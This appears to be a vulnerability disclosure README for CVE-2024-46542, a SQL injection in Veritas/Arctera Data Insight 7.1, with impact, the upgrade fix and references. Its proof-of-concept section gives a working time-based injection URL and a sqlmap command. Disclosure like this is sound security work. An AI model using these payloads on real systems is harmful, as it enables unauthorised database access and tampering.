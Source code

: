 # CVE-2024-46542

**Severity :** **Medium** (**6.5**)

**CVSS score :** `CVSS v3.1 Base Score 6.5 (AV:N/AC:L/PR:H/UI:N/S:U/C:H/I:H/A:N)` 

## Summary :

A vulnerability was discovered in Veritas / Arctera Data Insight versions **7.1**, and prior.  The vulnerability allows an attacker to modify the syntax of a **SQL query** in one of the **administrative features** of the application.

## Poc
### Steps to Reproduce :
1. Log in with admin rights.
2. Perform the time based sql injection in the getTable parameter:
  ```html
  https://<ip>/data?getTable=info)+WHERE+8943=8943+AND+4718=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))--+veJY&db=_report&repid=77&page=1
  ```
  Alternatively sqlmap can be used:
  ```html
  sqlmap -u "https://<ip>/data?getTable=info&db=_report&repid=77&page=1" -p getTable --dbms sqlite --risk 3 --level 5
  ```
## Affected Version Details :

- <= 7.1

## Impact :

This may result in the attacker being able to submit arbitrary SQL commands on the back-end database to create, read, update, or delete data stored in the database.

## Mitigation :

- Upgrade to Data Insight version 7.1.1
  
## References :
- https://www.veritas.com/support/en_US/security/ARC24-001
- https://nvd.nist.gov/vuln/detail/CVE-2024-46542
